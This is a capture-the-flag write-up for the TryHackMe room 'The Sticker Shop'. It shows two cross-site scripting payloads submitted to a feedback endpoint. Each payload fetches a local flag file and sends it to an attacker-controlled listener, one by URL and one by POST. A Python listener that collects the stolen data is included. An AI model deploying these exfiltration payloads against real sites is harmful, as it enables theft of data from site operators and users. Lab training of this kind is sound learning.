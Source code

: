 ```yaml
---
title: The Sticker Shop
categories: [TryHackMe]
tags: [web, easy,]
image: images/The Sticker Shop/The Sticker Shop.jpg
---
```


**The Sticker Shop** is a **easy** rated room on **TryHackMe**,


We inspected the webpage by opening the site and using the **Inspect Element** tool. During this process, we found an endpoint named `submit_feedback`.  

We then navigated to the URL:  
`http://10.10.50.243:8080/submit_feedback`.  

This raised the possibility of a **Cross-Site Scripting (XSS)** vulnerability.  

To investigate further, we proceeded with testing the endpoint for XSS exploits.



# ●methode 1

## let open our python serveur
```console
python3.9 -m http.server
```

```console

base64:

<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    window.open(`http://10.10.1.57:8015?flag=${btoa(data)}`, '_blank');
  });
</script>
``` 


<img src="images/The Sticker Shop/methode 1/flag.PNG" alt="The Sticker Shop" width="700"/>

## let go to CyberChef

<img src="images/The Sticker Shop/methode 1/flag1.PNG" alt="The Sticker Shop" width="700"/>




# ●methode 2

create a file `script.py` 

simple python server to accept post request.

```console
from http.server import HTTPServer, BaseHTTPRequestHandler

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # Read the length of the POST data
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        
        # Print the data (or save it to a file)
        print("Received data:", post_data.decode())
        
        # Send a response to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"Data received")

# Start the server
server_address = ('', 8000)  # Listen on all interfaces, port 8000
httpd = HTTPServer(server_address, SimpleHTTPRequestHandler)
print("Listening on port 8000...")
httpd.serve_forever()
```


```console
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://10.10.1.57:8015', { 
      method: 'POST',
      body: data
    });
  });
</script>
```
<img src="images/The Sticker Shop/methode2/flag1.PNG" alt="The Sticker Shop" width="700"/>




